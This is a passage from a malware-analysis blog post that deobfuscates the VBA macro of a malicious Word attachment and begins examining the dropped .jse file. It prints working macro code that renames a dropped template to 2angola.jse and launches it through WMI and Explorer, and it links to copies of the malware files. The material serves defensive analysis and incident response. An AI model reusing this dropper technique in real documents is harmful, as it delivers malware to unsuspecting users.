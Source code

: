 ... actually this was all only decoy. Everything related to the copied code is just trash and does not do anything related to the malware. It actually does nothing at all. It is literally just an empty shell. The only important code of the vba is the following one contained in the `AddToTheAutoCorrectList`:

```vb
FerD = "winmg" & HoYD & "rocess"
' Foto = variable containing the path to the 2angola.dot file
' Groov = Method returning the string "Jse"
Polk = Replace(Foto, ".dot", "." & Groov)
Name Foto As Polk
Set p = GetObject(FerD)
res = p.Create(AsrP & " """ & Polk & """", Null, Null, pid)
```

When we manually deobfuscate this a little, we'll get this:

```vb
newMalFilePath = Replace(malFilePath, ".dot", ".Jse") ' replaces the .dot in the string with .jse
Name malFilePath As newMalFilePath ' Renames the 2angola.dot malware file to 2angola.jse on the disk
Set p = GetObject("winmgmts:Win32_Process") ' Creates an object to start processes from vba
res = p.Create("Explorer """ & newMalFilePath & """", Null, Null, pid) ' Execute the jse file
' The string evaluates to 'Explorer "C:\Users\<user>\AppData\Roaming\Microsoft\Templates\2angola.jse"'
```

So in this part of the vba, the created .dot file was being renamed to a .jse file. After that it uses a functionality of windows which uses the Explorer to run a program. Windows has a mapping of file extensions to programs which are able to handle such files. If you are a Unix user you know that file extensions are only part of the name and do not change the file itself, so it's kind of stupid to use that as an indicator of what program to use, but yeah.
The Windows Explorer then starts the default program for `.jse` files which is `Wscript.exe`. That will execute the code contained in the `.jse` file.

If you want to see what the vba file looked like in total, I would suggest to view [this](/assets/files/2019-08-29-jse-malware-analysis/Purchase_order_approval_19930284_deobfuscated_minimal.vba) minimized file without comments. Apart from that there are several modified files I can suggest looking at - note that these files are actually part of a malware and should be handled with care:


- [Original vba](/assets/files/2019-08-29-jse-malware-analysis/Purchase_order_approval_19930284.vba)
- [Deobfuscated vba with comments](/assets/files/2019-08-29-jse-malware-analysis/Purchase_order_approval_19930284.vba)
- [Deobfuscated vba, minified without comments](/assets/files/2019-08-29-jse-malware-analysis/Purchase_order_approval_19930284_deobfuscated_minimal.vba)
- [Deobfuscated vba, minified with comments](/assets/files/2019-08-29-jse-malware-analysis\Purchase_order_approval_19930284_deobfuscated_minimized_commented.vba)

So now that we know what the word macros are doing, let's check out the `.jse` file.


### JSE code analysis
Let's take a look at the dropped `.dot`/`.dotu` or since we know it was renamed, rather the `.jse` file. We know the name of the file after the macro was executed was `2angola.jse`. At this point (in a company environment) we could have started a search in our log management tool (or endpoint protection tool or whatever you are using) for this exact file name and hash, because we know this is an malicious artifact and devices with this exact file must have executed the word macros. But our analysis should not end here.
